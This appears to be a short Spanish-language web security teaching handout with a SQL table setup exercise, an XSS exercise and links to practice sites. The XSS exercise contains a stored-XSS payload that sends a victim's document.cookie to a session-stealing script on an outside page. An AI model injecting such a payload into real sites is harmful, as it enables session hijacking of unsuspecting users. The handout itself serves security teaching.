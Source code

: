 # Seguridad WEB 101

## Inyección SQL
### Ejercicio 1

1. http://sqlfiddle.com
2. Ejecutar los comandos:

``CREATE TABLE `users` (
  `id` INT NOT NULL AUTO_INCREMENT,
  `email` VARCHAR(45) NULL,
  `password` VARCHAR(45) NULL,
  PRIMARY KEY (`id`));``

``insert into users (email,password) values ('m@m.com',md5('abc'));``

3. Consulta en el lado derecho el usuario ``select * from users; ``

## XXS
### Ejercicio
1. Ingresa a http://www.techpanda.org/ 
2. Ingresa el usuario y password correctos.
3. Crea un contacto nuevo "Add a New Contact"
4. En el campo de _"first name"_ ingresa lo siguiente

``<a href=# onclick=\"document.location=\'http://techpanda.org/snatch_sess_id.php?c=\'+escape\(document.cookie\)\;\">TuNombre</a>``

## Recursos
* https://www.hacksplaining.com/lessons
* https://google-gruyere.appspot.com 
* XSS Gamification https://xss-game.appspot.com/ 
* SQL Injection https://redtiger.labs.overthewire.org/
